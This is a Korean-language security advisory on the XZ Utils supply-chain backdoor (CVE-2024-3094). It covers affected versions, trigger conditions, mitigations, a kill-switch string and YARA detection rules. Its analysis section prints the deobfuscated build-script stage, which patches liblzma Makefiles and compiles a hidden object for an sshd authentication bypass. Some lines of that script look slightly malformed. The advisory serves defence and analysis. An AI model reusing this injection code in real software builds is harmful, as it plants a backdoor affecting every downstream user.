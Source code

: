# XZ Utils 데이터 압축 라이브러리에 영향을 미치는 공급망 손상 취약점(CVE-2024-3094)
##### 원작자 : 문광일 PM, 김평일 대리, 김태현 사원
##### 작성자 : 김태현 사원
##### 작성일자 : 2024년 4월 7일
</br></br>

## (1) 취약점 설명

2024년 03월 29일자로 CISA(미국 사이버보안 및 인프라 보안국) Alert 페이지에 긴급으로 XZ Utils 데이터 압축 라이브러리 취약점 조치권고가 기재됨.</br></br>
CISA Alert 링크 :</br>
https://www.cisa.gov/news-events/alerts/2024/03/29/reported-supply-chain-compromise-affecting-xz-utils-data-compression-library-cve-2024-3094

XZ Utils는 높은 압축률과 빠른 압축 해제를 제공하는 xz 압축 형식용 도구 모음임.</br></br>
XZ Utils 홈페이지(현재 접근 X) :</br>
https://xz.tukaani.org/xz-utils/
</br></br>

모든 GNU/리눅스 운영체제에서 데이터 압축에 필요한 필수 유틸리티를 제공하는 인기 오픈소스인 'XZ Utils' 라이브러리에서 백도어가 발견돼 전 세계 소프트웨어 및 보안 업계에 비상이 걸림.</br>
**특히, 해당 백도어 악성코드는 수많은 기업과 사용자들을 대상으로 한 소프트웨어 공급망 공격으로 볼 수 있어 피해 규모가 어느 정도 확대될지 파장이 커지고 있음.**

해당 취약점(CVE-2024-3094)은 소프트웨어 공급망 공격의 일종으로 **CVSS 3.1 점수는 10.0으로 최대 심각도**를 나타냄.</br>
해당 취약점은 최근 출시된 XZ Utils 버전 5.6.0(2월 24일 출시) 및 5.6.1(3월 9일 출시)에 영향을 미치는 것으로 알려짐.</br></br>
아래와 빠르게 대응이 필요함.</br>
NIST 링크 :</br></br>
https://nvd.nist.gov/vuln/detail/CVE-2024-3094
</br>
</br>
## (2) 취약한 버전 및 개선 버전
<div align="center"><img src="https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/16c8c1b2-f489-4214-a395-d7793d7252e2"></div>
</br>

## (3) 취약점 분석

백도어가 동작하게 되면 sshd의 로그인 프로세스 중 CPU 사용량이 크게 증가하게 되며 sshd 와 관련된 비정상적인 징후가 발생함.</br>

동작 방식은 XZ 빌드 프로세스 중 다음 줄이 포함된 구성 스크립트의 마지막에 실행되는 난독화된 스크립트를 삽입하며, xz-utils 및 liblzma용 MakeFiles 생성을 담당하는 Build-to-Host.m4 스크립트가 실행됨.</br></br>
`gl_[$1]config='sed "r\n" $gl_am_configmake | eval $gl_path_map | $gl[$1]_prefix -d 2>/dev/null'.`</br></br>

구성 스크립트에 포함된 숨겨진 코드는 특정 조건에 따라 백도어를 독점적으로 구현하고 있으며 특히, 구성 스크립트 내의 백도어 설치는 선택적 사항으로 표적 OS가 x86-64 Linux이고 XZ 빌드 프로세스가 Debian 또는 RPM 패키지 빌드의 일부여야 하고 해당 조건을 충족하지 못하면 백도어가 설치되지 않음.</br></br>
`if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1); then`</br></br>

난독화된 스크립트가 실행되면 OS가 x86-64 Linux인지, 빌드가 Debian 또는 RPM 패키지 빌드의 일부인지 확인하는 등 다양한 검사를 수행함.</br></br>
`if test -f "$srcdir/debian/rules" || test "x$RPM_ARCH" = "xx86_64"; then`</br></br>

해당 스크립트는 런타임 중 심볼 확인을 방해하기 위해 liblzma의 MakeFile을 수정하여 RSA_public_decrypt@....pl 심볼을 악성 백도어 코드로 리디렉션하는 것을 목표로 하며, sshd의 공개 키 인증 프로세스 중에 RSA_public_decrypt@....pl 함수가 호출되어 공격자의 코드가 실행됨.</br></br>

이후 정상적인 인증을 위해 libcrypto를 다시 호출하여 공격자가 특정 조건에서 인증을 우회하여 취약한 서버에서 원격 코드 실행(RCE)으로 이어질 수 있도록 함.</br>

■ 익스플로잇 런타임 요구 사항
1. TERM 환경 변수는 SSH 클라이언트-서버 통신에서 인증 프로세스의 시작을 의미하므로 설정하지 않아야 함
2. 바이너리 경로는 /usr/sbin/sshd여야 하며, 이는 sshd가 liblzma 라이브러리를 사용할 때 악성 코드가 실행됨을 나타냄
3. 심볼 해상도 간섭이 노출되지 않도록 환경 변수 LD_DEBUG 및 LD_PROFILE은 설정되지 않은 상태로 유지함.
4. LANG 환경 변수는 sshd가 항상 설정 하므로 설정이 필요함
5. 익스플로잇은 안티 디버깅 기법을 사용하여 rr 및 gdb와 같은 디버깅 도구를 탐지하고 실행을 방지함

<details><summary>아래 코드는 난독 해제된 주요 코드에 대한 분석 자료임.</summary>
<div mardown="1">
<p>
```# 컴파일러 옵션을 변수에 할당
P="-fPIC -DPIC -fno-lto -ffunction-sections -fdata-sections"
# pic_flag 변수에 P 변수의 값을 할당
C="pic_flag=\" $P\""
# O 변수 할당
O="^pic_flag=\" -fPIC -DPIC\"$"
# 아키텍처 확장 지원 여부를 판단하는 함수 이름을 변수에 할당
R="is_arch_extension_supported"
# CPU ID를 가져오는 함수의 시작 부분을 변수에 할당
x="__get_cpuid("
# 압축된 파일 이름을 변수에 할당
p="good-large_compressed.lzma"
# 손상된 LZMA2 형식의 파일 이름을 변수에 할당
U="bad-3-corrupt_lzma2.xz"
# zrKcVq 변수를 평가하여 실행
eval $zrKcVq
# config.status 파일이 존재하는지 확인
if test -f config.status; then
  # zrKcSS 변수를 평가하여 실행
  eval $zrKcSS
  # config.status 파일에서 LD, CC, GCC, srcdir, build, enable_shared, enable_static, gl_path_map 변수를 설정
  eval `grep ^LD=\'\/ config.status`
  eval `grep ^CC=\' config.status`
  eval `grep ^GCC=\' config.status`
  eval `grep ^srcdir=\' config.status`
  eval `grep ^build=\'x86_64 config.status`
  eval `grep ^enable_shared=\'yes\' config.status`
  eval `grep ^enable_static=\' config.status`
  eval `grep ^gl_path_map=\' config.status`
  # zrKccj 변수를 평가하여 실행
  eval $zrKccj
  # config.status 파일에서 "HAVE_FUNC_ATTRIBUTE_IFUNC"=" 1"이 설정되지 않았다면 스크립트 종료
  if ! grep -qs '\["HAVE_FUNC_ATTRIBUTE_IFUNC"\]=" 1"' config.status > /dev/null 2>&1;then
    exit 0
  fi
  # config.h 파일에서 "HAVE_FUNC_ATTRIBUTE_IFUNC"이 정의되지 않았다면 스크립트 종료
  if ! grep -qs 'define HAVE_FUNC_ATTRIBUTE_IFUNC 1' config.h > /dev/null 2>&1;then
    exit 0
  fi
  # enable_shared 변수가 "yes"가 아니라면 스크립트 종료
  if test "x$enable_shared" != "xyes";then
    exit 0
  fi
  # build 변수가 x86_64로 시작하지 않거나 linux-gnu로 끝나지 않는다면 스크립트 종료
  if ! (echo "$build" | grep -Eq "^x86_64" > /dev/null 2>&1) && (echo "$build" | grep -Eq "linux-gnu$" > /dev/null 2>&1);then
    exit 0
  fi
fi
# $R() 함수가 crc64_fast.c 파일에 없으면 스크립트 종료
if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc64_fast.c > /dev/null 2>&1; then
  exit 0
fi
# $R() 함수가 crc32_fast.c 파일에 없으면 스크립트 종료
if ! grep -qs "$R()" $srcdir/src/liblzma/check/crc32_fast.c > /dev/null 2>&1; then
  exit 0
fi
# $R 변수가 crc_x86_clmul.h 파일에 없으면 스크립트 종료
if ! grep -qs "$R" $srcdir/src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then
  exit 0
fi
# $__get_cpuid 함수가 crc_x86_clmul.h 파일에 없으면 스크립트 종료
if ! grep -qs "$x" $srcdir/src/liblzma/check/crc_x86_clmul.h > /dev/null 2>&1; then
  exit 0
fi
# GCC 변수가 'yes'가 아니면 스크립트 종료
if test "x$GCC" != 'xyes' > /dev/null 2>&1; then
  exit 0
fi
# CC 변수가 'gcc'가 아니면 스크립트 종료
if test "x$CC" != 'xgcc' > /dev/null 2>&1; then
  exit 0
fi
# LD 변수에 '-v' 옵션을 추가하여 GNU ld가 아니면 스크립트 종료
LDv=$LD" -v"
if ! $LDv 2>&1 | grep -qs 'GNU ld' > /dev/null 2>&1; then
  exit 0
fi
# $srcdir/tests/files/$p 파일이 없으면 스크립트 종료
if ! test -f "$srcdir/tests/files/$p" > /dev/null 2>&1; then
  exit 0
fi
# $srcdir/tests/files/$U 파일이 없으면 스크립트 종료
if ! test -f "$srcdir/tests/files/$U" > /dev/null 2>&1; then
  exit 0
fi
# debian/rules 파일이 있거나 RPM_ARCH 변수가 'x86_64'이면 zrKcst 변수를 평가하여 실행
if test -f "$srcdir/debian/rules" || test "x$RPM_ARCH" = "xx86_64"; then
  eval $zrKcst
  # src/liblzma/Makefile 파일에서 ACLOCAL_M4 정의가 없으면 스크립트 종료
  j="^ACLOCAL_M4 = \$(top_srcdir)\/aclocal.m4"
  if ! grep -qs "$j" src/liblzma/Makefile > /dev/null 2>&1; then
    exit 0
  fi
  # src/liblzma/Makefile 파일에서 am__uninstall_files_from_dir 정의가 없으면 스크립트 종료
  z="^am__uninstall_files_from_dir = {"
  if ! grep -qs "$z" src/liblzma/Makefile > /dev/null 2>&1; then
    exit 0
  fi
  # src/liblzma/Makefile 파일에서 am__install_max 정의가 없으면 스크립트 종료
  w="^am__install_max ="
  if ! grep -qs "$w" src/liblzma/Makefile > /dev/null 2>&1; then
    exit 0
  fi
  # src/liblzma/Makefile 파일에서 z 변수 정의가 없으면 스크립트 종료
  E=$z
  if ! grep -qs "$E" src/liblzma/Makefile > /dev/null 2>&1; then
    exit 0
  fi
fi
# src/liblzma/Makefile 파일에서 am__vpath_adj_setup 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$Q" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# src/liblzma/Makefile 파일에서 am__include 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$M" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# src/liblzma/Makefile 파일에서 all: all-recursive 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$L" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# src/liblzma/Makefile 파일에서 LTLIBRARIES 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$m" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# src/liblzma/Makefile 파일에서 AM_V_CCLD 정의를 찾지 못하면 스크립트 종료
if ! grep -qs "$u" src/liblzma/Makefile > /dev/null 2>&1; then
  exit 0
fi
# libtool 파일에서 $O 변수를 찾지 못하면 스크립트 종료
if ! grep -qs "$O" libtool > /dev/null 2>&1; then
  exit 0
fi
# zrKcTy 변수를 평가하여 실행
eval $zrKcTy
# Makefile의 $j 검색 결과 바로 위에 $b 변수의 값 삽입
b="am__test = $U"
sed -i "/$j/i$b" src/liblzma/Makefile || true
# gl_path_map 변수에서 슬래시를 이스케이프하는 작업 후, 결과를 $d에 저장
d=`echo $gl_path_map | sed 's/\\\/\\\\\\\\/g'`
# Makefile의 $w 검색 결과 바로 위에 정의된 $b 변수의 값을 삽입
b="am__strip_prefix = $d"
sed -i "/$w/i$b" src/liblzma/Makefile || true
# Makefile의 $E 검색 결과 바로 위에 $b 변수의 값 삽입
b="am__dist_setup = \$(am__strip_prefix) | xz -d 2>/dev/null | \$(SHELL)"
sed -i "/$E/i$b" src/liblzma/Makefile || true
# Makefile의 $Q 검색 결과 바로 위에 $s 변수의 값 삽입
b="\$(top_srcdir)/tests/files/\$(am__test)"
s="am__test_dir=$b"
sed -i "/$Q/i$s" src/liblzma/Makefile || true
# LDFLAGS에 "-z,now" 옵션이 포함되어 있지 않으면 $h 변수에 추가
h="-Wl,--sort-section=name,-X"
if ! echo "$LDFLAGS" | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1; then
  h=$h",-z,now"
fi
# Makefile의 $L 검색 결과 바로 위에 $j 변수의 값 삽입
j="liblzma_la_LDFLAGS += $h"
sed -i "/$L/i$j" src/liblzma/Makefile || true
# libtool 파일에서 $O를 $C로 대체
sed -i "s/$O/$C/g" libtool || true
# Makefile에서 $u를 $k로 대체
k="AM_V_CCLD = @echo -n \$(LTDEPS); \$(am__v_CCLD_\$(V))"
sed -i "s/$u/$k/" src/liblzma/Makefile || true
# Makefile의 $m 검색 결과 바로 위에 $l 변수의 값 삽입
l="LTDEPS='\$(lib_LTDEPS)'; \\\\\n\
    export top_src
    export top_srcdir='\$(top_srcdir)'; \\\\\n\
    export CC='\$(CC)'; \\\\\n\
    export DEFS='\$(DEFS)'; \\\\\n\
    export DEFAULT_INCLUDES='\$(DEFAULT_INCLUDES)'; \\\\\n\
    export INCLUDES='\$(INCLUDES)'; \\\\\n\
    export liblzma_la_CPPFLAGS='\$(liblzma_la_CPPFLAGS)'; \\\\\n\
    export CPPFLAGS='\$(CPPFLAGS)'; \\\\\n\
    export AM_CFLAGS='\$(AM_CFLAGS)'; \\\\\n\
    export CFLAGS='\$(CFLAGS)'; \\\\\n\
    export AM_V_CCLD='\$(am__v_CCLD_\$(V))'; \\\\\n\
    export liblzma_la_LINK='\$(liblzma_la_LINK)'; \\\\\n\
    export libdir='\$(libdir)'; \\\\\n\
    export liblzma_la_OBJECTS='\$(liblzma_la_OBJECTS)'; \\\\\n\
    export liblzma_la_LIBADD='\$(liblzma_la_LIBADD)'; \\\\\n\
    # rpath를 사용하여 am__test_dir에서 실행 파일을 찾고, am__dist_setup을 통해 압축 해제 및 실행 환경 구성
    sed rpath \$(am__test_dir) | \$(am__dist_setup) >/dev/null 2>&1";
sed -i "/$m/i$l" src/liblzma/Makefile || true
# zrKcHD 변수를 평가하여 실행
eval $zrKcHD
fi
# 먼저, .libs 폴더 내에 liblzma_la-crc64_fast.o 파일과 liblzma_la-crc32_fast.o 파일이 모두 존재하는지 확인함
elif (test -f .libs/liblzma_la-crc64_fast.o) && (test -f .libs/liblzma_la-crc32_fast.o); then
# 조건을 충족하면 zrKcKQ 변수에 저장된 명령을 실행함
eval $zrKcKQ
# src/liblzma/check/crc64_fast.c 파일에 $R() 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$R()" $top_srcdir/src/liblzma/check/crc64_fast.c; then
exit 0
fi
# src/liblzma/check/crc32_fast.c 파일에 $R() 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$R()" $top_srcdir/src/liblzma/check/crc32_fast.c; then
exit 0
fi
# src/liblzma/check/crc_x86_clmul.h 파일에 $R 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$R" $top_srcdir/src/liblzma/check/crc_x86_clmul.h; then
exit 0
fi
# src/liblzma/check/crc_x86_clmul.h 파일에 $x 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$x" $top_srcdir/src/liblzma/check/crc_x86_clmul.h; then
exit 0
fi
# ../../libtool 파일에 $C 문자열이 존재하지 않는 경우 스크립트 실행을 중단함
if ! grep -qs "$C" ../../libtool; then
exit 0
fi
# liblzma_la_LINK 변수에 "-z,now" 또는 "-z -Wl,now" 옵션이 포함되어 있지 않은 경우 스크립트 실행을 중단함
if ! echo $liblzma_la_LINK | grep -qs -e "-z,now" -e "-z -Wl,now" > /dev/null 2>&1;then
exit 0
fi
# liblzma_la_LINK 변수에 "lazy" 옵션이 포함되어 있는 경우 스크립트 실행을 중단함
if echo $liblzma_la_LINK | grep -qs -e "lazy" > /dev/null 2>&1;then
exit 0
fi
# N과 W 변수를 초기화
N=0
W=0
# $top_srcdir/m4/gettext.m4 파일에서 "dnl Convert it to C string syntax." 문자열을 찾아 Y 변수에 저장함
Y=`grep "dnl Convert it to C string syntax." $top_srcdir/m4/gettext.m4`
# zrKcjv 변수에 저장된 명령을 실행함
eval $zrKcjv
# Y 변수가 비어있는 경우 N을 0으로, W를 88792으로 설정함
if test -z "$Y"; then
N=0
W=88792
# 그렇지 않은 경우 N을 88792으로, W를 0으로 설정함
else
N=88792
W=0
fi
# tests/files 폴더 내의 압축된 테스트 파일($p)을 xz 명령으로 해제하고, $i 변수에 저장된 명령을 실행함
# 그 결과를 sed와 awk를 통해 처리하고, 이를 다시 xz로 압축해 단일 스트림으로 만들어 liblzma_la-crc64-fast.o 파일에 저장함
# 모든 명령이 성공적으로 실행되지 않을 경우 true(0)을 반환하여 스크립트가 계속 실행되게 함
xz -dc $top_srcdir/tests/files/$p | eval $i | LC_ALL=C sed "s/\(.\)/\1\n/g" | LC_ALL=C awk 'BEGIN{FS="\n";RS="\n";ORS="";m=256;for(i=0;i<m;i++){t[sprintf("x%c",i)]=i;c[i]=((i*7)+5)%m;}i=0;j=0;for(l=0;l<4096;l++){i=(i+1)%m;a=c[i];j=(j+a)%m;c[i]=c[j];c[j]=a;}}{v=t["x" (NF<1?RS:$1)];i=(i+1)%m;a=c[i];j=(j+a)%m;b=c[j];c[i]=b;c[j]=a;k=c[(a+b)%m];printf "%c",(v+k)%m}' | xz -dc --single-stream | ((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o || true
# liblzma_la-crc64-fast.o 파일이 존재하지 않으면 스크립트 실행을 중단함
if ! test -f liblzma_la-crc64-fast.o; then
exit 0
fi
# .libs 폴더 내에 있는 liblzma_la-crc64_fast.o 파일을 liblzma_la-crc64-fast.o 파일로 복사함
# 복사에 실패해도 스크립트 실행을 중단하지 않음
cp .libs/liblzma_la-crc64_fast.o .libs/liblzma_la-crc64-fast.o || true
# V 변수에 특정 조건을 충족하는 아키텍처에서 지원되는 함수를 확인하는 코드를 저장함
V='#endif\n#if defined(CRC32_GENERIC) && defined(CRC64_GENERIC) && defined(CRC_USE_IFUNC) && defined(PIC) && (defined(BUILDING_CRC64_CLMUL) || defined(BUILDING_CRC32_CLMUL))\nextern int _get_cpuid(int, void*, void*, void*, void*, void*);\nstatic inline bool _is_arch_extension_supported(void) { int success = 1; uint32_t r[4]; success = _get_cpuid(1, &r[0], &r[1], &r[2], &r[3], ((char*) __builtin_frame_address(0))-16); const uint32_t ecx_mask = (1 << 1) | (1 << 9) | (1 << 19); return success && (r[2] & ecx_mask) == ecx_mask; }\n#else\n#define _is_arch_extension_supported is_arch_extension_supported'
# yosA 변수에 저장된 명령을 실행함
eval $yosA
# crc64_fast.c 파일을 수정하여 is_arch_extension_supported() 함수 대신 _is_arch_extension_supported()를 사용하고,
# crc_x86_clmul.h 헤더 파일을 포함하는 코드를 추가함
# 이 변경 사항을 적용하고 컴파일하여 .libs 폴더 내에 새로운 liblzma_la-crc64_fast.o 객체 파일을 생성함
# crc64_fast.c 파일에서 아키텍처 지원 여부를 확인하는 함수를 수정함
# 이를 위해 sed를 사용하여 is_arch_extension_supported() 호출을 _is_arch_extension_supported()로 변경함
if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc64_fast.c | \
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r liblzma_la-crc64-fast.o -x c -  $P -o .libs/liblzma_la-crc64_fast.o 2>/dev/null; then
# crc32_fast.c 파일을 수정하여 is_arch_extension_supported() 함수 대신 _is_arch_extension_supported()를 사용하고,
# crc32_arm64.h 헤더 파일을 포함하는 코드를 추가함
# 이 변경 사항을 적용하고 컴파일하여 .libs 폴더 내에 새로운 liblzma_la-crc32_fast.o 객체 파일을 생성함
if sed "/return is_arch_extension_supported()/ c\return _is_arch_extension_supported()" $top_srcdir/src/liblzma/check/crc32_fast.c | \
sed "/include \"crc32_arm64.h\"/a \\$V" | \
sed "1i # 0 \"$top_srcdir/src/liblzma/check/crc32_fast.c\"" 2>/dev/null | \
$CC $DEFS $DEFAULT_INCLUDES $INCLUDES $liblzma_la_CPPFLAGS $CPPFLAGS $AM_CFLAGS $CFLAGS -r -x c -  $P -o .libs/liblzma_la-crc32_fast.o; then
eval $RgYB
# liblzma 라이브러리를 링크하고, 라이브러리가 성공적으로 생성되지 않았다면,
# .libs 폴더 내의 crc32 및 crc64 관련 객체 파일들의 이름을 조정함
if $AM_V_CCLD$liblzma_la_LINK -rpath $libdir $liblzma_la_OBJECTS $liblzma_la_LIBADD; then
    if test ! -f .libs/liblzma.so; then
        mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
        mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
    fi
    # 생성된 라이브러리 파일들을 삭제함
    rm -fr .libs/liblzma.a .libs/liblzma.la .libs/liblzma.lai .libs/liblzma.so* || true
else
    # 라이브러리 링크 과정이 실패했다면, 객체 파일들의 이름을 조정함
    mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
    mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
# 사용하지 않는 객체 파일들을 삭제함
rm -f .libs/liblzma_la-crc32-fast.o || true
rm -f .libs/liblzma_la-crc64-fast.o || true
# 앞서 진행한 변경 사항이 성공적으로 적용되지 않았다면,
# .libs 폴더 내의 crc32 및 crc64 관련 객체 파일들의 이름을 조정함
else
    mv -f .libs/liblzma_la-crc32-fast.o .libs/liblzma_la-crc32_fast.o || true
    mv -f .libs/liblzma_la-crc64-fast.o .libs/liblzma_la-crc64_fast.o || true
fi
# 마지막으로, 더 이상 필요하지 않은 liblzma_la-crc64-fast.o 파일을 삭제함
rm -f liblzma_la-crc64-fast.o || true
fi
eval $DHLd```</p>
</div>
</details> 
</br>

## (4) 취약점 대응

1. CVE-2024-3094 취약점 여부 탐지 후 개선 버전(다운그레이드)으로 변경 설치</br>
다음을 실행하여 “XZ” 버전이 영향을 받는 버전(5.6.0 or 5.6.1)인지 확인함.</br>
```strings `which xz` | grep '5\.6\.[01]```</br></br>
영향받는 버전일 경우 다음과 같이 출력함.</br>
`xz (XZ Utils) 5.6.1`

또는 Alpine Package Manager 를 사용하여 버전을 확인할 수 있음.
`$ apk list xz
xz-5.6.1-r2 x86_64 {xz} ...`

2. 악성 백도어 기능 비활성화
업그레이드나 다운그레이드가 불가능한 경우, 백도어의 “킬 스위치” 를 통해 악성 백도어 기능을 비활성화가 가능함.
/etc/environment 파일에 다음 문자열을 추가함. (단, SSH 및 Systemd를 다시 시작한 후 적용)
`sudo systemctl restart ssh`</br>

`yolAbejyiejuvnup=Evjtgvsh5okmkAvj`

3. CVE-2024-3094 취약점 탐지 도구 사용
아래 오픈소스 도구를 이용하여 로컬 시스템이 CVE-2024-3094에 취약하고 XZ의 악성 버전이 설치되어 있는지 검사함.</br>
도구 1 : https://github.com/jfrog/cve-2024-3094-tools/tree/main/cve-2024-3094-detector</br>
도구 2.: https://github.com/FabioBaroni/CVE-2024-3094-checker

4. yara 를 이용한 EDR 패턴 업데이트
```
rule BKDR_XZUtil_Script_CVE_2024_3094_Mar24_1 {
   meta:
      description = "Detects make file and script contents used by the backdoored XZ library (xzutil) CVE-2024-3094."
      author = "Florian Roth"
      reference = "https://www.openwall.com/lists/oss-security/2024/03/29/4"
      date = "2024-03-30"
      score = 80
      hash = "d44d0425769fa2e0b6875e5ca25d45b251bbe98870c6b9bef34f7cea9f84c9c3"
   strings:
      $x1 = "/bad-3-corrupt_lzma2.xz | tr " ascii
      $x2 = "/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|" ascii
      $x3 = "eval $zrKcKQ" ascii
   condition:
      1 of them
}
rule BKDR_XZUtil_Binary_CVE_2024_3094_Mar24_1 {
   meta:
      description = "Detects injected code used by the backdoored XZ library (xzutil) CVE-2024-3094."
      author = "Florian Roth"
      reference = "https://www.openwall.com/lists/oss-security/2024/03/29/4"
      date = "2024-03-30"
      score = 75
      hash1 = "319feb5a9cddd81955d915b5632b4a5f8f9080281fb46e2f6d69d53f693c23ae"
      hash2 = "605861f833fc181c7cdcabd5577ddb8989bea332648a8f498b4eef89b8f85ad4"
      hash3 = "8fa641c454c3e0f76de73b7cc3446096b9c8b9d33d406d38b8ac76090b0344fd"
      hash4 = "b418bfd34aa246b2e7b5cb5d263a640e5d080810f767370c4d2c24662a274963"
      hash5 = "cbeef92e67bf41ca9c015557d81f39adaba67ca9fb3574139754999030b83537"
      hash6 = "5448850cdc3a7ae41ff53b433c2adbd0ff492515012412ee63a40d2685db3049"
   strings:
      $op1 = { 48 8d 7c 24 08 f3 ab 48 8d 44 24 08 48 89 d1 4c 89 c7 48 89 c2 e8 ?? ?? ?? ?? 89 c2 }
      $op2 = { 31 c0 49 89 ff b9 16 00 00 00 4d 89 c5 48 8d 7c 24 48 4d 89 ce f3 ab 48 8d 44 24 48 }
      $op3 = { 4d 8b 6c 24 08 45 8b 3c 24 4c 8b 63 10 89 85 78 f1 ff ff 31 c0 83 bd 78 f1 ff ff 00 f3 ab 79 07 }
      /* function signature from detect.sh provided by Vegard Nossum */
      $xc1 = { F3 0F 1E FA 55 48 89 F5 4C 89 CE 53 89 FB 81 E7 00 00 00 80 48 83 EC 28 48 89 54 24 18 48 89 4C 24 10 }
   condition:
      uint16(0) == 0x457f
      and (
         all of ($op*)
         or $xc1
      )
}
rule BKDR_XZUtil_KillSwitch_CVE_2024_3094_Mar24_1 {
   meta:
      description = "Detects kill switch used by the backdoored XZ library (xzutil) CVE-2024-3094."
      author = "Florian Roth"
      reference = "https://gist.github.com/q3k/af3d93b6a1f399de28fe194add452d01?permalink_comment_id=5006558#gistcomment-5006558"
      date = "2024-03-30"
      score = 85
   strings:
      $x1 = "yolAbejyiejuvnup=Evjtgvsh5okmkAvj"
   condition:
      $x1
}
```
</br>

## (5) 참고 사이트

https://openwall.com/lists/oss-security/2024/03/29/4</br>
https://www.boannews.com/media/view.asp?idx=128350&kind=&sub_kind=</br>
https://jfrog.com/blog/xz-backdoor-attack-cve-2024-3094-all-you-need-to-know/</br>
https://www.picussecurity.com/resource/blog/cve-2024-3094-a-backdoor-in-xz-utils-leads-to-remote-code-execution</br>
https://vulcan.io/blog/alert-cve-2024-3094

